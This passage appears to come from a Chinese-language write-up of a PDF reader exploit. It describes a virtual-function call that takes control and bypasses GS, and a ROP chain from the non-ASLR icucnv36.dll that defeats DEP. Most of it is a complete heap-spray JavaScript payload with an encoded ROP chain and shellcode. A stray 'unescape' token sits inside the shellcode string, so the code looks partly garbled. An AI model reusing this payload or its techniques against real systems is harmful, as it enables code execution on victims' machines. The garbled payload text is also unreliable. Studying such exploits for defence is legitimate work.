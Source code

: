 我们就可以执行到 0x0c0c0c0c 处的代码了。

依次调用CreateFileA->CreateFileMappingA->MapViewOfFile->memcpy将栈上的shellcode复制到有r-w-x权限的内存段，这样我们就绕过了DEP。

理论上也可以通过ROP调用VirtualProtect修改shellcode所在位置的属性为可读可写可执行进而执行shellcode。

ROP指令时均使用icucnv36模块中的地址，因为icucnv36.dll不受ASLR保护，因此也可以用于绕过ASLR保护。

嵌入到PDF中的javascript代码实现Heap Spary，进而执行ROP，最后跳入shellcode执行。

### heap spray技术应用



```javascript
<script type="text/javascript">
var s = unescape( '%u4141%u4141%u63a5%u4a80%u0000%u4a8a%u2196%u4a80%u1f90%u4a80%u903c%u4a84%ub692%u4a80%u1064%u4a80%u22c8%u4a85%u0000%u1000%u0000%u0000%u0000%u0000%u0002%u0000%u0102%u0000%u0000%u0000%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u0008%u0000%ua8a6%u4a80%u1f90%u4a80%u9038%u4a84%ub692%u4a80%u1064%u4a80%uffff%uffff%u0000%u0000%u0040%u0000%u0000%u0000%u0000%u0001%u0000%u0000%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u0008%u0000%ua8a6%u4a80%u1f90%u4a80%u9030%u4a84%ub692%u4a80%u1064%u4a80%uffff%uffff%u0022%u0000%u0000%u0000%u0000%u0000%u0000%u0001%u63a5%u4a80%u0004%u4a8a%u2196%u4a80%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u0030%u0000%ua8a6%u4a80%u1f90%u4a80%u0004%u4a8a%ua7d8%u4a80%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u0020%u0000%ua8a6%u4a80%u63a5%u4a80%u1064%u4a80%uaedc%u4a80%u1f90%u4a80%u0034%u0000%ud585%u4a80%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u000a%u0000%ua8a6%u4a80%u1f90%u4a80%u9170%u4a84%ub692%u4a80%uffff%uffff%uffff%uffff%uffff%uffff%u1000%u0000%u91be%u7e18%udb51%ud9c4%u2474%u5af4%uc931%u31b1%u7231%u0313%u1372%uea83%ufa6d%uad8b%u7965%u4e73%u1e75%uabfd%u1e44%ub899%uaef6%uede9%u45fa%u05bf%u2889%u2968%u863a%u044e%ubbbb%u07b3%uc63f%ue7e7%u097e%ue6fa%u7447%ubbf7%uf210%u2baa%u4e15%uc777%u5e65%u34ff%u613d%ueb2e%u3836%u0df0%u309b%u15b9%u7df8%uad73%u0aca%u6782%uf203%u4629%u01ac%u8e33%ufa0a%ue646%u8769%u3d50%u5310%ua6d4%u10b2%u034e%uf443%uc009%ub14f%u8e5e%u4453%ua4b2%ucd6f%u6b35%u95e6%uaf11%u4ea3%uf63b%u2009%ue844%u9df2%u62e0%uc91e%u2898%u0c74%u572e%u0e3a%u5830%u676a%ud301%uf0e5%u369e%u0e42%u1bd5%u87e2%uc9b0%uc5b7%u2442%uf3fb%ucdc0%u0783%ua7d8%u4c86%u5b5e%uunescapefa%u5b0b%udea9%u3819%u4d2c%u91c1%uf5cb%uee60' );
var a = unescape( "%" + "u" + "0" + "c" + "0" + "c" + "%u" + "0" + "c" + "0" + "c" );
while (a.length + 20 + 8 < 65536) a+=a;
c = a.substring(0, (0x0c0c-0x24)/2);
c += s;
c += a;
f = c.substring(0, 65536/2);
while(f.length < 0x80000) f += f;
k = f.substring(0, 0x80000 - (0x1020-0x08) / 2);
var NwBg = new Array();
for (OYV=0;OYV<0x1f0;OYV++) NwBg[OYV]=k+"s";
</script>
```



----



函数结束前(绕过GS)会先call一个栈上的地址(调用虚函数)，将EIP控制到栈上执行0x0c0c0c0c。

为什么会想到用虚函数：逆向分析得到有虚函数，猜测会在函数返回前调用(控制执行流)。



----
